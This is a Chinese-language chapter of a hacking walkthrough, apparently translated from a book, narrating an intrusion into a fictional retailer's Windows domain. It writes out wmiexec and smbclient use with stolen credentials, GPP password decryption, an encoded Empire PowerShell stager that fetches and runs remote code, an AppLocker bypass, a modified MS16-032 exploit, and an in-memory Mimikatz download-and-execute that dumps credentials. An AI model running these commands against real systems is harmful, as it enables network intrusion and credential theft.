




# 领域神话

<b>
"你和上帝的唯一区别是你忘记了你是神圣的。"    --丹·布朗(Dan Brown) 
</b>

<br><br>


## 活动目录
为了正确地遵循场景的其余部分，对Windows活动目录有一个基本的了解是很重要的。这一小章通过显式地介绍一些关键的Active Directory概念来达到这样的目的。如果你觉得像是你已知的广告，你可以跳到下一章。

公司环境中的Windows计算机通常链接在一起，以便共享资源和设置。此互连是使用Windows活动目录设置的。

Windows活动目录的根节点称为林。其唯一目的是包含共享类似配置的域（计算机和用户组）。

每个域名跟踪自己的政策（“密码强度”、“更新时间表”、“用户帐户”、“机器”）。在我们的场景中，Gibsonbird定义了一个叫Gbshop.Corp的域名，在本地商店中操作服务器和计算机。

域控制器是控制和管理特定域的Windows计算机。它是资源从中进行决策或轮询新设置所依赖的中心枢纽。网络越大，用于提高性能的域控制器就越多。

在连接到域的Windows计算机上可以定义两种类型的用户：
- 本地用户的密码散列存储在本地服务器上
- 域用户的密码散列存储在域控制器上

因此，即使域用户没有附加在单个工作站中，仍可以连接到域中的所有工作站（除非禁止这样做）。

但是，要在服务器上远程打开会话，用户需要在所述服务器上具有远程桌面权限，或者需要管理员权限（本地或域上）。

用户可以是仅在给定计算机上定义的本地组的一部分，也可以是在域级别定义的域组的一部分，即在域控制器计算机上。

有三个主要的域组可以完全控制域及其所有资源：
- 域管理组
- 企业管理组
- 域管理员

如果我们控制一个属于其中一个组的帐户，它将自动检查和并与公司配对（有其他几种方法可以实现对域的完全控制：对GPO的写入权限、管理委派等。请查看Black Hat 2016上的精彩演示https://www.youtube.com/watch？v=2w1cesS7pGY）！

回到我们当前的情况，帐户dvoxon连接到域GBSHOP。他们使用的工作站也是如此，当然还有我们截获请求时他们正在联系的服务器。

既然我们在域名上有了一个合法的帐户，让我们四处看看，看看这片外国土地上有什么宝藏。

## 点击重播！
我们有一个用户的域密码。首先想到的是使用这些信息连接到他们的工作站并下载他们的文件和文件夹。要在Windows计算机上远程执行命令，我们至少需要以下三种网络条件之一：
- 远程桌面协议（RDP）-在计算机上打开3389端口。使用Windows上的mstsc或Linux上的rdesktop/remmina等程序，我们可以在机器上打开图形交互会话。这是方便远程连接的后续选项。

- 远程过程调用（RPC）–端口135和49152-65535（或Windows 2003上的5000-6000）。这些是允许管理员在计算机上远程执行函数和过程的特殊服务，其中一些允许代码执行。
- 远程PowerShell（WinRM）–端口5985-5986。WinRM服务接受来自管理员用户的远程PowerShell命令。


如果我们回到前面执行的nmap扫描，我们可以在管理器的工作站上进行筛选：
```
root@PIspy:# grep "192.168.1.25" result_shop.gnmap 
Ports: 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///,
445/open/tcp//microsoft-ds///
```

RDP在机器上没有打开，这并不奇怪。它主要用于服务器。然而，135号端口是开放的！我们必须走老路：通过RPC执行命令行。使用图形界面（RDP）似乎是一个更简单的选择，但它确实有各种限制。

例如，一次只有一个用户可以打开交互式会话。我们必须耐心地等待Dvoxon去午休，然后才能尝试一种偷偷摸摸的连接。

另外，RDP连接有其专用的日志文件，因此调查人员更容易准确地查明漏洞的确切时间。结合各方因素，这也是更倾向选择RPC命令执行的原因。

我们将依赖Impacket框架(工具下载链接https://github.com/CoreSecurity/impacket)中名为wmiexec的工具在机器上获得交互式提示，并通过RPC执行简单的命令。
```
root@PIspy:# wmiexec.py dvoxon:Bird123\!@192.168.1.25
Impact v0.9.15 – Copyright 2002-2016 Core Security Technologies
[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```

凭据有效。但是，似乎dvoxon在计算机上没有足够的权限来远程执行命令。
要么是这个，要么是UAC的特性限制了我们的潜在范围。微软设置了UAC（用户访问控制）来限制通过RPC和WinRM执行远程命令的权限。因此，也许dvoxon确实是管理组的一部分，但是由于UAC的原因，我们不得不使用低特权上下文。

无论如何，我们会尝试另一条路。工作站上可能有网络共享吗？也许有一个文件夹里有很有价值的信息：
```
root@PIspy:# smbclient -L 192.168.1.25 -U GBSHOP\\dvoxon%Bird123!
Domain=[GBSHOP] OS=[Windows 10 Pro 14393] Server=[Windows 10 Pro 6.3]
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
```

好吧，也许这次不行。ADMIN$、C$和IPC$是管理员用户只能使用的默认共享（即远程共享）。基本上，我们有有效的域凭据，但受少数可能的目标限制…请稍候！

我们手头确实有其他候选人。还记得经理试图访问的服务器–SV0078吗？

让我们在那台机器上碰碰运气吧。实际上，让我们更大胆些。我们将瞄准所有可能的与SV0078一样托管在同一个网络的服务器。为此，我们首先将SV0078的NetBIOS名称解析为常规IP地址。
```
root@PIspy:# nmblookup SV0078
10.10.20.78 SV0078<00>
```

然后我们执行一个快速的nmap扫描，查找运行在同一网络上的机器（我们停留在/24段进行快速扫描）。

作为分支管理人员dvoxon对这些服务器中的任何一个拥有本地管理员权限，这不太可能，因此我们将只查找承载网络共享的服务器，即具有开放445端口的服务器：
```
root@PIspy:# nmap 10.10.20.0/24 -p 445 -oA 445_servers
Starting Nmap 7.01 ( https://nmap.org ) at 2017-03-19
Nmap scan report for 10.10.20.78
PORT STATE SERVICE
445/tcp open microsoft-ds
Nmap scan report for 10.10.20.199
PORT STATE SERVICE
445/tcp open microsoft-ds
[…]
```

我们已将可能的目标列表缩小到少数几个提供文件共享服务（253台机器中有10台）。让我们使用bash中的脏循环爬行它们，该循环使用smbclient命令列出可用共享：<br>

```
# bash shell script file loop.sh
#!/bin/bash
## Array containing all viable targets
declare -a arr=("10.10.20.78" "10.10.20.199" "10.10.20.56" "10.10.20.41"
"10.10.20.25" "10.10.20.90" "10.10.20.71" "10.10.20.22" "10.10.20.38"
"10.10.20.15")
## now loop through the above array
for i in "${arr[@]}"
do
 echo $i
 ## List shares
 smbclient -L $i -U GBSHOP\\dvoxon%Bird123!
 echo "--"
done
```

```
root@PIspy:# chmod +x loop.sh && ./loop.sh
10.10.20.78
Domain=[GBSHOP] OS=[Windows Server 2012 R2 Datacenter Evaluation
9600] Server=[Windows Server 2012 R2 Datacenter Evaluation 6.3]
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
CORP$ Disk 
FTP_SALES$ Disk 
HR$ Disk 
IPC$ IPC Remote IPC
IT_Support$ Disk 
---
[…]
```

现在我们可以说，我确信您没有错过“FTP\SALES$”共享或其他吸引人的文件夹，但使用dvoxon的低权限帐户，我们无法访问它们（目前）：
```
root@PIspy:#smbclient -c "ls" //10.10.20.78/CORP$ -U GBSHOP\\dvoxon
%Bird123!
WARNING: The “syslog” option is deprecated
Domain[GBSHOP] OS=[Windows Server 2012 R2 Datacenter Evaluation
NT_STATUS_ACCESS_DENIED listing \*
```

我们需要一种获得更高特权的方法来摆脱这些令人讨厌的限制。实现这一点的一种方法是浏览dvoxon可用的有限共享，查找可能泄露某些密码的脚本和配置数据：.bat、.xml、.sh、.vbs、.vba、.vbe、.asp、.aspx、.php、.jsp等。

我们的第一个目标是承载SYSVOL共享的SV0199（10.10.20.199）计算机。不是随便挑的。这是域控制器上存在的典型文件夹。

我们有一个强大的目标在手！命令在smbclient中递归，并与ls指令一起显示所有可用目录中的文件：
```
root@PIspy:# smbclient -c "recurse;ls" //10.10.20.199/SYSVOL -U GBSHOP\\
dvoxon%Bird123!
```


smbclient返回托管在此文件夹中的多个xml文件。域控制器依赖这些文件（groups.xml、ScheduledTasks.xml等）在域计算机上部署特定配置。

例如，这样一种有用的配置是在任何新工作站上设置本地管理用户。这通常是通过'groups.xml'文件完成的。

当然，每一个自动创建帐户都需要一个密码存储机制，还有什么比创建帐户所用的同一个文件groups.xml更好的地方来存储这些关键信息呢？groups.xml是一个必须由任何工作站（包括域用户）按设计读取的文件！

正如您在下面的屏幕中看到的，使用get命令，我们可以检索到名为wk_admin密码为“obfuscated”的本地管理帐户：
```
root@PIspy:# smbclient //10.10.20.199/SYSVOL -U GBSHOP\\dvoxon
%Bird123! -c "get \GBSHOP.CORP\Policies\{6AC1786C-016F-11D2-945F-
00C04fB984F9}\USER\Preferences\Groups\groups.xml"
```


我们可以通过反转加密方案（AES-256）来恢复密码的明文版本，因为几年前微软无意中在其网站上发布了密钥：


```
root@FrontGun:# gpp-decrypt
6gKTm/tvgxptRmOTeB4L1L6KcfLrPMwW8w6uvbqEvhyGbFtp6sSBueVYpTS+
ZcIU
7stringsRockHell*
```

答对了！(GPP解密在ARM版本的Kali上不可用。我们在前置服务器上解密密码)

现在我们有了一个有效的本地管理员帐户，我们终于可以在管理员的工作站上远程执行命令了。在一些罕见的情况下，UAC可能会让我们感到不安，但默认情况下，主本地管理员帐户不会受此影响。

使用wmiexec进行的快速测试证实，我们确实完全控制了工作站：


## Empire来拯救
我们可以依靠 wmiexec 在管理器的计算机上远程执行命令，但一旦我们深入推进，我们能做的相当有限：收集有关域的信息、启动键盘记录器、可能浏览文件夹等。

因此，我们将使用由@harmj0y、@sixdub和@enigma0x3开发的名为Empire的PowerShell框架。它是一个脚本集合，可以完成所有繁重的工作，并自动执行这些侦察和升级过程。

我们将遵循这个邪恶模式：使用wmiexec在管理者的计算机上执行Empire脚本。此脚本连接回前置服务器，并允许我们交互访问要在管理器计算机上执行的模块集合。

为了能够接收来自受感染目标的传入连接，我们在前置服务器上下载并安装Empire PS（基本上是复制Git存储库并启动install.sh）。


在欢迎屏幕上，转到监听器菜单（命令监听器），并使用info命令列出默认的监听器：


通过发出 set 命令（例如：`set Port 443`）来设置正确的端口和地址。然后执行监听器：`run <Listener_name>`。

现在我们需要生成将连接回此监听器的PowerShell代码。我们将这段代码称为“stager”或“agent”：
```
(Emire) > usestager launcher
(Emire) > Set Listener FrontGun_List
(Emire) > Set OutFile /root/stager_ps.ps1
```

如果您检查stager_ps.ps1文件，您将得到以下内容：
```
powershell.exe -NoP -sta -NonI -W Hidden -Enc
WwBTAFkAUwB0AGUAbQAuAE4AZQBUAC4AUwBlAHIAdgBpAGMARQBQAG
8AaQBOAFQATQBhAG4AQQBnAGUAcgBdADoAOgBFAHgAUABFAEMAdAAxA
DAAMABDAG8ATgBUAEkAbgB1AEUAIAA9ACAAMAA7ACQAVwBDAD0ATgBl
AFcALQBPAEIAagBFAEMAVAAgAFMAWQBTAFQAZQBtAC4ATgBlAHQALgBX
AEUAQgBDAEwASQBFAE4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQA
vADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOw
AgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIABy
AHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkA
HcAYwAuAEgARQBhAGQAZQBSAFMALgBBAEQARAAoACcAVQBzAGUAcgAtA
EEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAYwAuAFAAcgBPAFgAeQAgAD0
AIABbAFMAWQBzAFQAZQBNAC4ATgBlAHQALgBXAGUAQgBSAGUAcQBVAE
UAUwBUAF0AOgA6AEQARQBmAEEAVQBsAHQAVwBFAGIAUABSAG8AeAB5A
DsAJABXAEMALgBQAHIAbwBYAFkALgBDAHIAZQBEAEUAbgBUAGkAQQBM
AFMAIAA9ACAAWwBTAFkAUwB0AGUAbQAuAE4AZQBUAC4AQwBSAEUAZA
BFAE4AdABpAGEATABDAGEAQwBIAGUAXQA6ADoARABlAGYAYQB1AGwAd
ABOAGUAdAB3AE8AUgBrAEMAUgBFAGQAZQBOAHQASQBhAEwAcwA7ACQ
ASwA9ACcANwBjADMANwBiAGUANwAyADYAMABmADgAYwBkADcAYwAxA
GYANQBlADQAZABiAGQAZAA3AGIAYwA1AGIAMgAzACcAOwAkAEkAPQAwA
DsAWwBDAEgAQQBSAFsAXQBdACQAYgA9ACgAWwBDAEgAQQBSAFsAXQBd
ACgAJAB3AEMALgBEAG8AdwBOAGwATwBBAEQAUwBUAHIASQBuAEcAKAA
iAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADUANgAuADEAMA
AxADoANAA0ADMALwBpAG4AZABlAHgALgBhAHMAcAAiACkAKQApAHwAJQ
B7ACQAXwAtAEIAWABPAHIAJABrAFsAJABJACsAKwAlACQAawAuAEwARQBu
AEcAdABoAF0AfQA7AEkARQBYACAAKAAkAEIALQBKAG8AaQBOACcAJwApAA
==
```

不要试着去记忆这些大量看似随机的字符。这只是一个名为base64的编码算法，用于简化内联执行。如果您好奇，可以使用以下命令将其反转：
```
root@FrontGun:# echo "WwBTAFkAUwB0AGUAbQAuI[…]" |base64 -d
```

这将生成正常的PowerShell命令，这些命令连接回监听器，轮询新命令，并在目标上执行它们。stager可以处理代理设置（企业环境中的经典设置）并使用对称加密（XOR操作）来保护通信流。

如您所见，由于大写字符、缩写和符号的原因，代码有点难以阅读：一些用于躲避反病毒软件的技术。简而言之，向Empire团队表示敬意。(注意：因为markdown文件中包含了恶意的代码片段，所以也会被Windows Defender处理)
```
[SYStem.NeT.ServicEPoiNTManAger]::ExPECt100CoNTInuE = 0;$WC=NeWOBjECT SYSTem.Net.WEBCLIENt;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wc.HEadeRS.ADD('User-Agent',$u);

$Wc.PrOXy = [SYsTeM.Net.WeBReqUEST]::DEfAUltWEbPRoxy;

$WC.ProXY.CreDEnTiALS =
[SYStem.NeT.CREdENtiaLCaCHe]::DefaultNetwORkCREdeNtIaLs;

$K='7c37be7260f8cd7c1f5e4dbdd7bc5b23';

$I=0;

[CHAR[]]$b=([CHAR[]]
($wC.DowNlOADSTrInG("http://192.168.56.101:443/index.asp")))|%{$_-
BXOr$k[$I++%$k.LEnGth]};

IEX ($B-JoiN'')
```

我们使用wmiexec在管理器的工作站上执行此stager，并耐心地等待前置服务器上的通知：
```
root@PIspy:# wmiexec.py wk_admin:7stringsRockHell*@192.168.1.25
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies
[*] SMBv3.0 dialect used
C:\>powershell.exe -NoP -sta -NonI -W Hidden -Enc
WwBTAFkAUwB0AGUAbQAuAE4AZQBUA[…]
(Empire: stager/launcher) >
[+] Initial agent HRWTGSWH1H4TGHEK from 192.168.1.25 now active
```

Great！如您所见，我们在计算机上连接的是wk_admin，当然不是域的一部分，而是工作站上的管理员。我们重命名wk_agent：
```
(Empire) > interact HRWTGSWH1H4TGHEK
(Empire: HRWTGSWH1H4TGHEK) > rename wkAgent
(Empire: wkAgent) >
```

如果在工作站上列出本地管理员成员，我们会注意到缺少dvoxon帐户。让我们把他列入这一特权名单，以此来表达我们对他的感激之情。
```
(Empire: wkAgent) > shell net localgroup administrators
Alias name administrators
Members
----------------------------------------------------------
wk_admin
it_support
The command completed successfully.
(Empire: wkAgent) > shell net localgroup administrators /add dvoxon
The command completed successfully.
```

我们可以让wk_admin代理继续运行，以便在计算机上执行各种操作：列出文件夹、获取文件等，但我们将被限制在此唯一的工作站上。

为了与Windows活动目录域通信并深入网络，我们需要一个具有有效域凭据的代理：dvoxon的帐户。因此，我们将使用他的凭据生成一个新的代理。这样，我们可以控制机器，也可以与域控制器通信以获取相关信息。
```
(Empire: wk_agent) > usemodule management/spawnas
(Empire: spawnas) > set UserName dvoxon
(Empire: spawnas) > set Password Bird123!
(Empire: spawnas) > set Domain GBSHOP
(Empire: spawnas) > set Listener FrontG_List
(Empire: spawnas) > set Agent wkAgent
(Empire: spawnas) > run
```


使用dvoxon的代理和get_domain_controller模块，我们可以看到有两个域控制器：SV0198和SV0199。
```
(Empire: DvAgent) > usemodule
situational_awareness/network/powerview/get_domain_controller
(Empire: get_domain_controller) > execute
```


GBSHOP域由四个高度特权的帐户管理：administrator、georges_adm、rachel_adm和sysback。这些是我们控制GBSHOP的目标。我们应该时刻注意他们：


继续我们的发现过程，我们映射其他潜在域之间建立的信任关系：
```
(Empire: DvAgent) > usemodule
situational_awareness/network/powerview/get_domain_trust
(Empire: get_domain_trust) > run
```


现在真有趣！正如您可能已经猜到的，信任关系是一个域信任并允许其他域的用户连接到其计算机。

理论上，我们可以在属于其他Windows域（GBHR、GBRD等）的某些计算机上使用此dvoxon帐户。可能有一些限制限制我们可以访问的资源，但您已经抓住了要点。

注意信任的类型：“External”（信任类型“TreeRoot”或“ChildRoot”表示两个域共享同一个林。如果我们攻破一个，我们就攻破了林（forest）中的每个域。请参阅有关Kerberos和krbtgt的后面部分。）。这意味着每个领域实际上都是自己独立森林(Forest)的一部分。除了信任关系，这些实体之间没有任何联系。这使事情复杂化了很多！

这意味着即使我们攻破了GBSHOP，我们仍然必须手动攻破其他所有的Forest（意即其他的域）。艰难的游戏。

域（森林，即forest）名也提出了一个有趣的观点。这是我们心中的假想架构：


然而，给出这一新的信息，看起来隔离比我们最初想象的要多。全国各地的商店和商店似乎都连接到一个域GBSHOP，而这个域GBSHOP又连接到销售部门。但是，我们发现其他分支机构，即研发和人力资源，被视为单独的实体。

显然，Windows域并不一定意味着一个孤立的地理位置或一个独立的法律实体，但它肯定意味着在系统级别上的某种隔离（不同的管理员、安全团队、可能的防火墙等）。

我们可以随心所欲地渗透GBSHOP域，但我们不会简单的就能获取销售数据，因为它存储在另一个域上…人力资源信息也是如此：


我们会按顺序处理的！首先，完成GBSHOP，然后寻找跳转到其他领域的机会。一次一小步的前进。

我们四处寻找文件和文档，但在管理人员（前面提到的dvoxon）的电脑上找不到任何东西……奇怪。在以下任何位置都找不到销售数据或密码：


一定是哪儿出了问题。要么这是一个完全原始的工作站，要么肯定出了什么问题。我们抓取当前用户桌面的屏幕截图，看看他在做什么：
```
(Empire: DvAgent) > usemodule usemodule collection/screenshot
(Empire: screenshot) > run
```


丹尼尔——我们现在可以直呼他的名字了——似乎在一个网络应用程序上。我们通过之前设置的socks代理执行firefox，并访问相同的URL：


一个Citrix平台！现在一切都有了意义：虚拟化！企业节省成本和保护基础设施的神奇方法…还是这样？！


## 挣脱
Citrix是一种虚拟化技术，许多公司都使用它来解决一个令人生畏的问题：“我如何为40000个用户提供一个安全、相似和受限制的环境来访问敏感的应用程序，而不必在我的防火墙上打开40000个网络漏洞？”？’

Citrix允许用户在远程服务器上访问和运行应用程序，但将它们显示为在用户的工作站上运行。使用Citrix提供的Google Chrome应用程序：


当我点击它时，它会在远程服务器上打开一个Google Chrome进程，但会显示一个无缝的窗口，就像它在我的计算机上运行一样。当然，由于远程Google Chrome窗口（在服务器上——Windows 2012）和本地窗口（Windows 10）的风格不同，我们可以解开整个掩盖：


最后，Citrix 不亚于在远程服务器上打开了一个包含在一个应用程序里的RDP 会话 。当你这样想的时候，它开辟了一系列全新的可能性。

如果我们能在远程服务器上执行谷歌Chrome以外的内容，该怎么办？可能是命令行解释器 （cmd.exe）？文件资源管理器（explorer.exe）？如果是这样，我们可以访问其他用户的文件吗？我们能从他们身上找到什么？这就是乐趣的开始！

现在我们已经牢牢掌握了Citrix，让我们回到GibsonBird，使用Daniel的Windows帐户登录到web页面：


这是我们的选择！我们可以连接到销售应用程序并访问一些数据，但这只是这个小商店的一些销售。我们必须有远大的目标，我们必须有远大的梦想！

我们想访问全国每家商店的销售数据，实现我们愿望的秘密应用是…drumroll…计算器应用！


正如我之前所说的，这个应用程序运行在远程服务器上！每个热键、命令和链接都在服务器上执行！例如，Citrix提供热键Ctrl+F1来启动任务管理器。我们试试看：


太糟糕了！似乎存在某种程度的强化，阻止我们生成未经Citrix特别允许的应用程序。不要介意。还有很多其他的技巧可以借鉴。

我特别喜欢的一个方法是在隐藏的菜单中找到一个URL，点击这个URL会自动在服务器上启动一个浏览器会话，很可能是Internet Explorer。尝试此操作时，任何应用程序上的“帮助”菜单都是首选：


Internet Explorer弹出！有趣的是，这里毕竟有一些注意事项。不允许使用任务管理器，但Internet Explorer是！

最好的部分是我们可以使用Internet Explorer（访问http://ikat.ha.cked.net/获取在线工具，以便在受限环境中读取文件和执行命令）访问系统文件！我们只需要发出“CTRL+O”（打开）并在地址栏中输入“C:”！


不允许。好的，共享文件夹“\\127.0.0.1\C$”指向驱动器“C:”怎么样？


很 完美！我们现在可以浏览服务器上的文件。是时候深入挖掘了！理想情况下，我们希望在计算机上找到某种凭据，因此我们将搜索经典文件：扩展名以.vba、.vbs、.bat、.ps1等结尾的文件。

在“C:\ temp”文件夹或此计算机上可用的任何其他文件夹或共享中都不会出现任何内容。有时本地管理凭据存储在部署文件中，如“unattend.xml”和“sysprep.xml”：


看起来他们已经完成了作业…我们尝试打开命令行界面（cmd.exe）来检查一些系统参数，但屏幕上又出现了一个漂亮的错误：


与尝试启动任务管理器时的错误相同。Google的一个快速搜索显示，它与AppLocker有关，AppLocker是一个Windows应用程序，它限制用户可以运行哪些可执行文件。它可以依赖三个参数来识别和排除应用程序：
- 可执行文件的位置。因为cmd.exe位于AppLocker中始终允许的“c:\ windows\system32”中，所以不是这样。
- 可执行文件的发布证书。由于cmd.exe是Microsoft签名的实用程序，因此它绝对不是此选项。
- 可执行文件的指纹或哈希。一定是这样。

我们能找到不共享同一散列的cmd.exe的替代文件吗？当然：32位版本的cmd.exe，powershell.exe，powershell_ise.exe，powershell.exe（32位，C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe），.BAT文件，VBS文件，HTA应用程序，JS文件，ActiveX对象…

我们试着玩这些把戏，结果却一个接一个地惨败。管理员在这个系统上做了彻底的工作，并阻止了所有这些可执行文件。

我们的魔法箭袋里还有其他的箭！还记得我们使用wmiexec执行的RPC命令吗？

我们可以在Windows上使用一个可执行文件来执行相同的操作：C:\ Windows\system32\wbem\wmic.exe（它的32位版本：C:\ Windows\sysWOW64\wbem\wmic.exe）。让我们试一试：


Great！WMIC上的命令遵循奇怪的结构(参阅https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/)，但最终，我们得到的信息与通过常规命令得到的信息相同。

假设我们想得到机器的名称和补丁级别：我们发布` computersystem get name`和`qfe get Hotfixid`命令：
```
wmic:root\cli>computersystem get name
Name
SV0056
wmic:root\cli>qfe get Hotfixid,Description,InstalledOn
Description HotFixID InstalledOn
Update KB2883200 9/30/2013
Update KB2894029 9/30/2013
Update KB2894179 9/30/2013
```

看来吉布森鸟的管理员这次有点马虎。服务器已经三年多没有更新了…我们能利用这个吗？当然！

我们下载一个利用Citrix上的Internet Explorer的执行权限提升的公开可用攻击代码，如MS16-032攻击代码（参阅https://github.com/FuzzySecurity/PowerShell-Suite/raw/master/Invoke-MS16-
032.ps1），然后使用PowerShell执行该攻击代码以获取管理员权限。

当然，唯一的问题是PowerShell被Applocker禁止。

让我们更准确地说明问题：无法执行此Windows计算机上安装的默认powershell.exe。如果我们能找到另一种风格的PowerShell，一种指纹和散列不同的PowerShell呢？例如，不是.exe文件，而是DLL文件的文件。

毕竟，DLL文件也是一个有效的PE文件，它不能按原样执行，而是需要由另一个可执行文件加载。

我们可以在p3nt4的Github（参阅https://github.com/p3nt4/PowerShdll/tree/master/dll）上下载PowerShell的DLL实现，并将其传输到Citrix服务器（直接通过Internet Explorer或通过PI 0，首先将文件放在那里，然后从Citrix服务器下载，可使用python -m SimpleHTTPServer在PI上生成web服务器）。

要运行这个DLL，我们只需调用可执行文件RunDLL32.exe并给它powershdl.DLL的入口点，即本例：rundll32.exe powershdl.dll，main


> 提示：我们可以使用相同的技巧来启动cmd。您可以从Didier Stevens的网站(下载链接https://blog.didierstevens.com/2010/02/04/cmd-dll/)获取cmd.exe的DLL版本，并按如下方式运行：rundll32.exe cmd.DLL，Control_RunDLL

现在，我们终于有了 PowerShell 解释器，我们可以执行 ms16-032 漏洞利用代码。此漏洞利用在不同 CPU 上运行的线程之间的争用条件（参阅https://googleprojectzero.blogspot.co.uk/2016/03/exploiting-leaked-thread-handle.html），打开具有系统上最高权限的命令提示：NT AUTHORITY。


我们得到一个错误。现在不对劲了！我们知道一个事实，即系统没有修补，利用漏洞是有效的。可能是什么问题？
```
--- Invoke-MS16-032.ps1 file ---
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
$CallResult = [Advapi32]::CreateProcessWithLogonW(
 "user", "domain", "pass",
 0x00000002, "C:\Windows\System32\cmd.exe", "",
 0x00000004, $null, $GetCurrentPath,
 [ref]$StartupInfo, [ref]$ProcessInfo)
--- etc ---
```

结果发现，利用MS16-032的漏洞会生成cmd.exe线程，以执行其竞争条件。考虑到Applocker的政策，这是不好的。

我们需要更改此命令，以指向有效的可执行文件，例如“C:\ windows\system32\wbem\wmic.exe”。我们还在第333行中执行相同的更改。


这会弹出一个新的 wmic 窗口，其中显示管理员凭据。它的美丽，除了有管理员特权，当然，是，我们不再受AppLocker的讨厌的政策的约束！

我们可以使用命令`process call create "cmd"`在机器上生成任何想要的进程：


花了一些时间，但我们终于拿到了！Citrix 服务器上的管理员交互式控制台。因此，我们可以控制该国内的任何商店的连接到被控制机器的任何用户！这是关于Citrix的伟大的事情。

它将所有用户聚集在一个位置，因此我们不需要在不同的计算机上寻找他们。为了充分利用这一独特机会，我们将利用 Windows 环境中最好的设计缺陷之一：内存中的可逆密码。

***关于Mimikatz的说明——Windows系统的魔杖***<br>
*Gentilkiwi开发了Mimikatz来探索Windows身份验证机制的内部机制。*

*他发现，用户登录后，其密码存储在内存中的本地安全授权子系统服务（LSASS）进程中。Mimikatz可以在Windows中使用非法的函数解密这些密码并以明文显示。*

*我建议你去看看Gentilkiwi关于缺陷细节的不同说法。(参看https://www.youtube.com/watch?v=-IMrNGPZTl0)*

*令人惊奇的是，即使在这么多年之后，它仍然有效。Mimikatz提供了如此多的选项，以至于它已经有效地成为了黑客攻击/渗透测试Windows环境时的重要工具。稍后我们将讨论它的一些功能。*

你可能想知道我们这里是不是太冒险了。这个工具似乎广为人知。当然，防病毒和反恶意软件产品将标记此工具的前五个字节。

但是关于防病毒产品（EDR工具倾向于采用不同的方法扫描内存中的恶意行为，但它们仍处于诞生阶段，几乎每次都可以绕过…）有一个简单的重要事实：它们只分析你在磁盘上写的文件。无论他们的技术多么卓越和创新，他们都受到这个简单事实的限制。

Mimikatz经历了这样的成功，它很快被集成到大多数Windows攻击工具中。Cymb3r（参阅https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz）甚至制作了一个PowerShell包装器来调用内存中的可执行文件，在磁盘上没有留下任何痕迹。没有磁盘文件，没有防病毒警报。

使用前面得到的提升提示命令，我们启动PowerShell并准备一个web对象来下载Mimikatz。
```
PS > $browser = New-Object System.Net.WebClient
PS > $browser.Proxy.Credentials
=[System.Net.CredentialCache]::DefaultNetworkCredentials
```

Internet连接很可能通过请求域身份验证的公司代理。因此，上面命令中的第二行将dvoxon的凭据沿着web请求传递。
```
PS> mimi =
$browser.DownloadString("https://raw.githubusercontent.com/PowerShellMa
fia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
PS > Invoke-Expression(mimi)
```

接下来，我们下载PowerShell的Mimikatz包装器，然后使用功能强大的“Invoke Expression”命令在内存中执行它。最后一步是调用Invoke Mimikatz函数！
```
PS > Invoke-Mimikatz
```


不出所料，证书真的拿到了！在大约100个用户中，我们找到了我们想要的：一个GBSHOP域管理帐户：achel_adm/Emma*Gryff12

## Windows El Dorado
